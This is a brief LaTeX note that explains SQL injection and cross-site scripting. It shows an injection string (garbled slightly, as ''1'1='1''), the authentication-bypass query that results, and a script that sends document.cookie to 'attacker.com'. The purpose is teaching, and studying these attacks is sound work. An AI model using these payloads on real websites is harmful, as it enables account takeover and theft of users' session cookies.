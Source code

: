\documentclass{article}
\begin{document}
	If input is say ' ' OR '1'1='1' -- '  the SQL query would become
	SELECT * FROM users WHERE username = '' OR '1'='1'--' AND password = ''
	causing the query to return all rows from the 'users' table, bypassing authentication\\
	
	XSS attacks inject malicious scripts (usually JavaScript) into web pages viewed by other users. These scripts can execute in the context of the victim's browser, allowing the attacker to steal cookies, session tokens, or other sensitive information, and perform actions on behalf of the victim.\\
	
	\textless script\textgreater var img = new Image(); img.src = 'http://attacker.com/steal.php?cookie=' + encodeURIComponent(document.cookie); \textless /script\textgreater
	this injects a script that sends cookie details to a controlled domain\\
	
\end{document}
